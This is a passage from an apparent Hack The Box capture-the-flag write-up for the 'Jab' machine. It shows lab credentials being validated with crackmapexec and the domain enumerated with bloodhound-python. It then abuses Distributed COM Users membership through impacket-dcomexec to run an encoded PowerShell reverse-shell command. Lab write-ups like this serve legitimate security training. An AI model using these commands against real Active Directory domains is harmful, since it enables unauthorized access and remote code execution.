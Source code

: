  ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609205036.png)

- The pentester verified that these credentials (`svc_openfire`: `!@#$%^&*(1qazxsw`) are still valid using `crackmapexec`.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609210722.png)

- Enumeration is an iterative process, and now that we have a new set of credentials (`svc_openfire`: `!@#$%^&*(1qazxsw`), he re-enumerated the SMB and WinRM services, but didn't find anything interesting.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609222432.png)

- Since we have valid credentials for a domain user, we'll use `bloodhound-python`, a Python-based ingestor for BloodHound, to extract domain information for further analysis.

```bash
bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -d jab.htb -c all -ns 10.10.11.4
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613103324.png)

- Afterward, we'll compress all the files into a `zip` file to upload them to BloodHound.

```bash
zip jab_ad.zip *
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613103517.png)

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613103923.png)

## Foothold

- Once the `json` files are uploaded, the domain is enumerated. Using the query `Find Shortest Paths to Domain Admins` from the `Pre-Built Analytics Queries`, the pentester notices that the user `SVC_OPENFIRE`, for whom we have credentials, has membership in the `Distributed COM Users` local group. Generally, this can allow code execution under certain conditions by instantiating a COM object on a remote machine and invoking its methods.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613104543.png)

- To exploit the privileges of this membership, we'll use `impacket-dcomexec`, which executes an arbitrary command and writes the output to a `share` via `SMB` by default. We'll generate the payload to obtain a reverse shell.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609220727.png)


- With that done, we execute the following command and receive the reverse shell!

```bash
impacket-dcomexec  -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd /c "powershell -e <payload_base64_here>"' -nooutput
```
